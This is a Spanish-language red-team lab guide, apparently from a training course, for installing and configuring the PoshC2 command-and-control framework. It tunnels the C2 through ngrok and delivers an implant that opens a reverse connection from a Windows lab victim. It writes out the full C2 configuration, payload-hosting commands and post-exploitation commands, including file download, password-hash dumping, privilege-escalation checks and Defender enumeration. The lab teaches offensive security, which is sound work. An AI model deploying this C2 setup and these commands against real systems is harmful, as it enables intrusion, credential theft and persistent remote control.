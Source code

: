 ## Lab3: C2 - PoshC2

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

- Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash
   ```
   
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2
- Algunas confguraciones complementarias:
   ```  
   export PYTHONPATH=/usr/local/lib/python.38/dist-packages/
   ```
   
  Para el error de apy_pkg
    ```
    cd  /usr/lib/python3/dist-packages
    ls -la /usr/lib/python3/dist-packages
    sudo cp apt_pkg.cpython-36m-x86_64-linux-gnu.so apt_pkg.so
    ```
    
  Para el dotnet
    
    ```
    wget http://ftp.us.debian.org/debian/pool/main/i/icu/libicu57_57.1-6+deb9u4_amd64.deb
    sudo dpkg -i libicu57_57.1-6+deb9u4_amd64.deb
    sudo apt install dotnet-sdk-2.2
    
    $ dotnet --version
    ```
    
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 
- En el parametro PayloadCommsHost se deberá  reemplazar por la url de ngrok
   ```
   # ngrok http 8080
   ```
      
- Para configurar el PoshC2 ejecutar: `posh-config`

  Ejemplo de configuración de PoshC2:

```
  # These options are loaded into the database on first run, changing them after
  # that must be done through commands (such as set-defaultbeacon), or by
  # creating a new project

  # Server Config
  BindIP: '0.0.0.0'
  BindPort: 8080

  # Database Config
  DatabaseType: "SQLite" # or Postgres
  PostgresConnectionString: "dbname='poshc2_project_x' port='5432' user='admin' host='192.168.111.111' password='XXXXXXX'" # Only used if Postgres in use

  # Payload Comms
  PayloadCommsHost: "http://f3a1-2001-1388-70c5-cc21-cd1d-168c-c3ae-7880.ngrok.io" # "https://www.domainfront.com:443,https://www.direct.com"
  DomainFrontHeader: ""  # "axpejfaaec.cloudfront.net,www.direct.com"
  Referrer: ""  # optional
  ServerHeader: "Apache"
  UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36"  # This should be updated to match the environment, this is Chrome on 2020-03-2

  DefaultSleep: "5s"
  Jitter: 0.20
  KillDate: "2999-12-01"  # yyyy-MM-dd
  UrlConfig: "urls" # Beacon URLs will be taken from resources/urls.txt if value is 'urls'. If value is 'wordlist' beacon URLs will be randomly generated on server creation from resources/wordlist.txt

  # Payload Options
  PayloadStageRetries: true
  PayloadStageRetriesInitialWait: 60 # Stager will retry after this many seconds, doubling the wait each time if it fails
  PayloadStageRetriesLimit: 30 # Stager retry attempts before failing
  DefaultMigrationProcess: "C:\\Windows\\system32\\netsh.exe"  # Used in the PoshXX_migrate.exe payloads
  PayloadDomainCheck: "" # If non-empty then the UserDomain on the target will be checked and if it 'contains' this value then the payload will execute, else it will not.

  # Notifications Options
  NotificationsProjectName: "PoshC2"
  EnableNotifications: "No"

  # Pushover - https://pushover.net/
  Pushover_APIToken: ""
  Pushover_APIUser: ""

  # Slack - https://slack.com/
  Slack_BotToken: "" # The token used by the application to authenticate. Get it from https://[YourSlackName].slack.com/apps/A0F7YS25R (swap out [YourSlackName]). Should start with xobo-.
  Slack_UserID: "" # Found under a users profile (i.e UHEJYT2AA). Can also be "channel". 
  Slack_Channel: "" # i.e #bots

  # SOCKS Proxying Options
  SocksHost: "http://127.0.0.1:49031"

  # PBind Options
  PBindPipeName: "jaccdpqnvbrrxlaf"
  PBindSecret: "mtkn4"

  # FComm Options
  FCommFileName: "C:\\Users\\Public\\Public.ost"
```

- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*





